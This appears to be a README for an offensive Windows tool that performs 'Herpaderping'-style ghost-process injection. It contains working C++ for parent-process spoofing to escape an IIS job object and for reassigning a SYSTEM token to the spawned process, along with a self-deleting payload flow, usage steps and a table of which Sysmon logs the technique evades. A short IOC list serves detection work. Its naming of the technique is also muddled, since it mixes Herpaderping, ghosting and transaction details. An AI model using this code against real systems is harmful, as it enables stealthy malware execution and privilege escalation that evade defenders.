

# Process Herpaderping: Transactional Ghost Process Injection

## Technique

**MITRE ATT&CK:** T1055 - Process Injection (Herpaderping Variant)

_Note: While similar to Process Doppelgänging (T1055.013), Herpaderping does not use TxF to overwrite a legitimate executable. Instead, it creates a ghost process directly from a memory section without file manipulation, making it a distinct evasion technique._

## Description

This tool creates a "ghost" process using memory sections and potential transaction manipulation, then injects an executable payload into it. Unlike Process Doppelgänging, it does not overwrite a legitimate file with malicious code via TxF. Instead, the payload is loaded from a separate file into a memory section, the file is deleted for anti-forensics, and a process is spawned from the section. The resulting process has no on-disk footprint and appears as a phantom execution, evading detection.

## Execution Flow



### Steps Detail

| Step | API Call                       | Description                                                               |
| ---- | ------------------------------ | ------------------------------------------------------------------------- |
| 1    | `CreateFile` / `ReadFile`      | Read payload EXE from file into memory buffer                             |
| 2    | `DeleteFile`                   | Self-delete payload file for anti-forensics                               |
| 3    | `NtCreateSection`              | Create memory section containing payload                                  |
| 4    | `GetNonJobParent()`            | **[PATCH]** Find `explorer.exe` / `wininit.exe` handle for PPID spoof    |
| 5    | `NtCreateProcessEx`            | **[PATCH]** Create ghost process with spoofed parent (escapes IIS Job)    |
| 6    | `NtSetInformationProcess` (9)  | **[PATCH]** Assign caller token to ghost process (token fixup)            |
| 7    | `NtAllocateVirtualMemory`      | Allocate executable memory in ghost process                               |
| 8    | `NtWriteVirtualMemory`         | Write payload to allocated memory                                         |
| 9    | `NtCreateThreadEx`             | Create thread to execute payload at entry point                           |

## Patches Applied

### 1. PPID Spoofing — `GetNonJobParent()` (`CWLImplant.cpp` line 13–31)

**File:** `CWLHerpaderping/CWLImplant.cpp`  
**Purpose:** Escape the IIS Worker Process Job Object, which blocks `CreateProcess` from child processes. By passing a handle to `explorer.exe` (or `wininit.exe` as fallback) as the `ParentProcess` argument of `NtCreateProcessEx`, the ghost process is created outside the Job Object boundary.

```cpp
static HANDLE GetNonJobParent()
{
    const wchar_t* targets[] = { L"explorer.exe", L"wininit.exe", NULL };
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnap == INVALID_HANDLE_VALUE) return GetCurrentProcess();
    PROCESSENTRY32W pe = { sizeof(pe) };
    if (Process32FirstW(hSnap, &pe)) {
        do {
            for (int i = 0; targets[i]; i++) {
                if (_wcsicmp(pe.szExeFile, targets[i]) == 0) {
                    HANDLE h = OpenProcess(PROCESS_CREATE_PROCESS, FALSE, pe.th32ProcessID);
                    if (h) { CloseHandle(hSnap); return h; }
                }
            }
        } while (Process32NextW(hSnap, &pe));
    }
    CloseHandle(hSnap);
    return GetCurrentProcess();  // fallback: no spoof
}
```

Used in `Herpaderping()`:
```cpp
HANDLE hParent = GetNonJobParent();
status = pNtCreateProcessEx(&hProcess, PROCESS_ALL_ACCESS, NULL, hParent,
                             0, hSection, NULL, NULL, FALSE);
if (hParent != GetCurrentProcess()) CloseHandle(hParent);
```

**Side-effect:** `NtCreateProcessEx` inherits the token of the spoofed parent (`explorer.exe` = Local Admin), not the caller → fixed by patch #2.

---

### 2. Token Fixup — `NtSetInformationProcess(ProcessAccessToken)` (`CWLImplant.cpp` line 202–222)

**File:** `CWLHerpaderping/CWLImplant.cpp`  
**Header:** `CWLHerpaderping/CWLInc.h` (added `PROCESS_ACCESS_TOKEN` struct and `_NtSetInformationProcess` typedef)  
**Purpose:** After PPID spoofing, the ghost process inherits `explorer.exe`'s token (Local Admin). This patch immediately reassigns the ghost process's primary token to a duplicate of the calling process's token. When `CertEnrollSvc.exe` (EfsPotato) calls `CertEnrollAgent.exe` as SYSTEM, the ghost process will therefore run as `NT AUTHORITY\SYSTEM`.

```cpp
_NtSetInformationProcess pNtSetInformationProcess = (_NtSetInformationProcess)GetProcAddress(
    GetModuleHandleA("ntdll.dll"), "NtSetInformationProcess");
if (pNtSetInformationProcess)
{
    HANDLE hToken = NULL;
    if (OpenProcessToken(GetCurrentProcess(), TOKEN_DUPLICATE | TOKEN_QUERY | TOKEN_ASSIGN_PRIMARY, &hToken))
    {
        HANDLE hPrimary = NULL;
        if (DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityIdentification, TokenPrimary, &hPrimary))
        {
            PROCESS_ACCESS_TOKEN pat = { hPrimary, NULL };
            pNtSetInformationProcess(hProcess, (PROCESSINFOCLASS)9, &pat, sizeof(pat));
            CloseHandle(hPrimary);
        }
        CloseHandle(hToken);
    }
}
```

Definitions added to `CWLInc.h`:
```c
typedef struct _PROCESS_ACCESS_TOKEN {
    HANDLE Token;
    HANDLE Thread;
} PROCESS_ACCESS_TOKEN, *PPROCESS_ACCESS_TOKEN;

typedef NTSYSAPI NTSTATUS(NTAPI* _NtSetInformationProcess)(
    IN HANDLE ProcessHandle,
    IN PROCESSINFOCLASS ProcessInformationClass,
    IN PVOID ProcessInformation,
    IN ULONG ProcessInformationLength);
```

---

### Combined Effect

| Scenario                       | Ghost Process Parent | Ghost Process Token         |
| ------------------------------ | -------------------- | --------------------------- |
| Original (no patch)            | `CertEnrollAgent.exe`| Same as caller              |
| After PPID patch only          | `explorer.exe`       | `explorer.exe` (Local Admin)|
| After PPID patch + token fixup | `explorer.exe`       | Same as caller (**SYSTEM**) |

## Payload Requirements

- Format: Portable Executable (.exe), not raw shellcode
- Architecture: x64
- Position-independent: No hard-coded addresses
- Entry point: Standard PE entry point
- Self-contained: No external dependencies

## Usage

```
CWLHerpaderping.exe

```

(Note: Payload must be placed at `C:\temp\payload64.exe` before execution)

## IOCs for Detection

- NTFS transaction manipulation without visible file operations
- Process creation from memory section (no ImagePath)
- Cross-process memory allocation with `NtAllocateVirtualMemory`
- Thread creation pointing to unbacked executable memory
- API sequence: NtCreateSection → NtCreateProcessEx → NtWriteVirtualMemory → NtCreateThreadEx

## Log Sources Coverage

| Data Component                | Log Source                           | Channel/Event                                            | Detected?                     |
| ----------------------------- | ------------------------------------ | -------------------------------------------------------- | ----------------------------- |
| Process Creation (DC0032)     | WinEventLog:Sysmon                   | EventCode=1                                              | ❌ No (ghost process)         |
| Process Access (DC0035)       | WinEventLog:Sysmon                   | EventCode=10                                             | ✅ Yes                        |
| Process Modification (DC0020) | WinEventLog:Sysmon                   | EventCode=8                                              | ❌ No (no CreateRemoteThread) |
| Module Load (DC0016)          | WinEventLog:Sysmon                   | EventCode=7                                              | ❌ No (EXE payload)           |
| OS API Execution (DC0021)     | etw:Microsoft-Windows-Kernel-Process | NtCreateSection, NtCreateProcessEx, NtWriteVirtualMemory | ✅ Yes                        |
